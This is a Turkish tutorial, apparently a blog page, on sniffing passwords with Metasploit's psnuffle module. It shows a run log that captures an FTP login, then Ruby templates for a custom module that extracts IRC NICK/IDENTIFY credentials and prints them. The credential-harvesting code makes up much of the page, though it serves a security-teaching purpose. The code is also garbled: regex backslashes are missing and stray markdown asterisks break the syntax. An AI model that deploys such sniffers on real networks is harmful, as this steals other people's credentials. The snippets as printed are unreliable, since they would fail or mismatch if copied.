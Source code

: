 ```yaml
---
draft: false
title: Password Listening in MSF
linkTitle: Password Listening
weight: 120
translationKey: password-listening-in-msf
date: 2017-05-16T12:56:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.
url: /msf-icinde-parola-dinleme/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```



Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.



`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.


```bash
msf > use auxiliary/sniffer/psnuffle
msf auxiliary(psnuffle) > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait for **new data

msf auxiliary(psnuffle) > run
> Auxiliary module execution completed
> Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
> Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
> Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
> Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
> Sniffing traffic.....
> Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **>>** victim / pass (220 3Com 3CDaemon FTP Server Version 2.0)
```



Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.



## Psnuffle Özelleştirme



İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.



Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.



Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.


```bash
self.sigs = {
:ok => /^(+OK[^n]*****)n/si,
:err => /^(-ERR[^n]*****)n/si,
:user => /^USERs+**([**^n]+)n/si,
:pass => /^PASSs+**([**^n]+)n/si,
:quit => /^(QUITs*****[^n]*****)n/si }
```



## IRC Modülü



Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.



Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.


```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```



## Oturum Tanımlama (Session)



Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.


```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** (pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667) # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** (pkt[:tcp].dst_port **==** 6667) # When packet is sent to server
s = find_session("#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}")
**else** # When packet is coming from the server
s = find_session("#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}")
end
```



Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.


```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]=matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]=matches # Store the password into the session hash s as well
**if** (s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete(s[:session]) # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k => matches**})** # Just add it to the session object
end
```



Tebrikler kendi modülünüzü yazdınız.
